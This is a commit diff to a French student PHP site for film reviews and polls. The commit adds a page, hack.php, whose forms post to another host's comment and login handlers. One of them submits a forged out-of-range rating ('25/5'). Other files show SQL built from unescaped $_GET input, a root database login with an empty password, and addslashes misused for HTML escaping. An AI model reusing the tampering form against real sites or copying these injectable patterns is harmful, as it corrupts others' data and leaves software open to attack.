
After one commit to melki/FAC, a PHP site: page /hack.php in a window 1280 px wide. The commit adds this page. Shown: the top 783 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
Big modification

```diff
--- /dev/null
+++ b/hack.php
@@ -0,0 +1,34 @@
+<html>
+<head></head>
+<body>
+
+	<form method="post" action="http://projet.massl2.free.fr/traitements/traitement_commentaire.php">
+						<label>Notez ce film : </label><select name="note" id="note">
+							<option value="-1">---</option>
+							<option value="0">0/5</option>
+							<option value="1">1/5</option>
+							<option value="2">2/5</option>
+							<option value="3">3/5</option>
+							<option value="4">4/5</option>
+							<option value="4.43434343434">25/5</option>
+						</select><br>
+						<input type="hidden" id="film" name="film" value="Captain America - First Avenger -">
+
+						<p>Ecrivez votre commentaire :</p>
+						<textarea type="texte" name="critique" class="critique"></textarea><br>
+						<input type="submit" value="Envoyez votre critique" class="valider" id="envoie_critique"/>
+						</form>
+						<form method="post" action="http://projet.massl2.free.fr/traitements/traitement_connection.php">
+					<fieldset class="formulaire">
+						<table>
+							<tr><td><label>Identifiant :</label></td><td><input type="text" name="pseudo" id="pseudo"></td></tr>
+							<tr><td><label>Mot de passe :</label></td><td><input type="password" name="password" id="password"></td></tr>
+						</table>
+						<input class="valider" type="submit" value="Me connecter" name="valider">
+					</fieldset>
+				</form>
+
+
+</body>
+
+</html>
--- a/includes/haut.php
+++ b/includes/haut.php
@@ -41,8 +41,8 @@
 						contenu = contenu + "<div id=question'"+i+"'> <input type='text' name='titreQuestion"+i+"' placeholder='La question "+i+"' required=''>"+
 						"<div class='styled-select'>"+
 						"<select name='typeQuestion"+i+"' id='typeQuestion"+i+"' onchange='affType("+i+")'>"+
-						"<option value='1'>Choix multiple</option>"+
-						"<option value='2'>Choix unique</option>"+
+						"<option value='1'>Choix multiple (cases à cocher)</option>"+
+						"<option value='2'>Choix unique (liste déroulante)</option>"+
 						"<option value='3'>Réponse écrite</option>"+
 						"<option selected disabled>Type de la question</option> </select> </div><div id='type"+i+"'></div></div>";
 						contenu= contenu + "<br>";
--- a/includes/menu.php
+++ b/includes/menu.php
@@ -10,6 +10,6 @@
 				</ul>
 			</div>
 			<div class="logo">
-				<img src="img/logo1.png"/>
+				<a href="index.php"><img src="img/logo1.png" alt="logo"/></a>
 			</div>
 		</div>
--- a/includes/sql.php
+++ b/includes/sql.php
@@ -1,4 +1,5 @@
 <?php
+					//identifiants
 					$connSQL['hote']="localhost";
 				   $connSQL['util']="root";
 				   $connSQL['pass']="";
--- a/inscription.php
+++ b/inscription.php
@@ -40,7 +40,7 @@ include 'includes/haut.php';
 		if($erreur=="Erreur : <br>") // on inscris le bonhomme
 		{
 			$mdp=crypt($mdp1);
-			$sql = 'INSERT INTO membres VALUES ("", "'.$pseudo.'","'.$mdp.'", 0, 0, "'.$mail.'","'.$age.'","'.$sexe.'")';
+			$sql = 'INSERT INTO membres VALUES ("", "'.$pseudo.'","'.$mdp.'", 0, 0, "'.$mail.'","'.$age.'","'.$sexe.'","")';
 			$req = requete($sql);
 			$erreur="Bravo te voilà inscris, tu peux désormais te connecter via la page d'accueil : <a href='index.php'>ici</a>";
 		}
--- a/liste_sondages.php
+++ b/liste_sondages.php
@@ -12,7 +12,7 @@ include 'includes/fonctions.php';
 				<?php
 					if(isset($_GET['id']))
 					{
-
+						//si on l'id on recupere les infos sur le sondage
 						echo "<input id='id' name='sondage_id' value='".$_GET['id']."' type='hidden'>";
 						$sql = 'SELECT *  FROM sondages WHERE id = "'.$_GET['id'].'"';
 						$req = requete($sql);
@@ -39,7 +39,7 @@ include 'includes/fonctions.php';
 
 										for($k=1;$k<=$choix['nb_choix'];$k++)
 										{
-											echo "<input id='check".$k.$question['numero']."' type='checkbox' name='reponse".$question['numero']."[]' value='".$choix['choix'.$k]."'  >";
+											echo '<input id="check'.$k.$question["numero"].'"" type="checkbox" name="reponse'.$question["numero"].'[]" value="'.addslashes($choix["choix".$k]).'"  >';
 											echo "<label for='check".$k.$question['numero']."'>".$choix['choix'.$k]."</label><br><br>";
 										}
 									}
@@ -61,7 +61,7 @@ include 'includes/fonctions.php';
 
 										for($k=1;$k<=$choix['nb_choix'];$k++)
 										{
-											echo"<option selected value='".$choix['choix'.$k]."'>".$choix['choix'.$k]."</option>";
+											echo'<option selected value="'.addslashes($choix["choix".$k]).'">'.$choix['choix'.$k].'</option>';
 										}
 
 										echo "<option selected disabled>Cliquez ici pour affichez les choix</option> ";
```
Also changed, not shown: index.php (+20 -1 lines), reponse.php (+21 -1 lines), resultat.php (+6 -6 lines).
